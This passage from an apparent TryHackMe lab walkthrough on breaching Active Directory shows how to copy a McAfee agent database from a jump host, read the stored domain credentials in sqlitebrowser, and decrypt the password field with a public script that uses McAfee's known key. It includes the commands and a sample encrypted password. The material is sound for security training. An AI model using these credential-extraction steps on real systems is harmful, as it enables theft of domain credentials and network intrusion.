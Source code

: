 ```php
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
```

To read the database file, we will use a tool called sqlitebrowser. We can open the database using the following command:

```php
thm@thm:# sqlitebrowser ma.db
```

```php
sqlitebrowser ma.db
```

PASS: jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==

Using sqlitebrowser, we will select the Browse Data option and focus on the AGENT_REPOSITORIES table:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/aeda85be24462cc6a3f0c03cd899053a.png)  

We are particularly interested in the second entry focusing on the DOMAIN, AUTH_USER, and AUTH_PASSWD field entries. Make a note of the values stored in these entries. However, the AUTH_PASSWD field is encrypted. Luckily, McAfee encrypts this field with a known key. Therefore, we will use the following old python2 script to decrypt the password. The script has been provided as a downloadable task file or on the AttackBox, it can be found in the `/root/Rooms/BreachingAD/task7/` directory.

**Note: The tool we will use here is quite old. It uses Python v2 and relies on an old crypto library. If you cannot get the script to work on your own VM, please make use of the AttackBox. However, there has been a recent update to the application to ensure that it works on Python3 as well, you can download the latest version here: [https://github.com/funoverip/mcafee-sitelist-pwd-decryption](https://github.com/funoverip/mcafee-sitelist-pwd-decryption)**  

You will have to unzip the mcafee-sitelist-pwd-decryption.zip file:

```php  
thm@thm:~/root/Rooms/BreachingAD/task7/$ unzip mcafeesitelistpwddecryption.zip   
``` 

```php
unzip mcafeesitelistpwddecryption.zip   
```

By providing the script with our base64 encoded and encrypted password, the script will provide the decrypted password:

```php    
thm@thm:~/root/Rooms/BreachingAD/task7/mcafee-sitelist-pwd-decryption-master$ python2 mcafee_sitelist_pwd_decrypt.py <AUTH PASSWD VALUE>
Crypted password   : <AUTH PASSWD VALUE>
Decrypted password : <Decrypted Pasword> 
```

Missing module:

```php
pip3 install pycryptodome
```
